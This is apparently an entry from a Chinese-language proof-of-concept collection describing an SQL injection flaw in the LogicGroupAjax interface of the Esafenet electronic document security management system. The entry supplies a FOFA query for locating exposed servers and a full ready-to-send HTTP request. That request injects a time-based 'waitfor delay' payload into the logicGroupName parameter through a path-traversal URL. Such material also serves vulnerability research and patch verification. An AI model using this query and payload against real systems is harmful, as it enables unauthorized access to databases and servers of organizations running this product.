 # 亿赛通电子文档安全管理系统LogicGroupAjax存在SQL注入漏洞

亿某通电子文档安全管理系统` LogicGroupAjax`接口的`logicGroupName`参数处对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，恶意攻击者可能通过该漏洞获取服务器信息或者直接获取服务器权限

## fofa

```yaml
app="亿赛通-电子文档安全管理系统"
```

## poc

```javascript
POST /CDGServer3/js/../LogicGroupAjax HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=isExist&logicGroupName=-1'waitfor delay '0:0:5'--
```

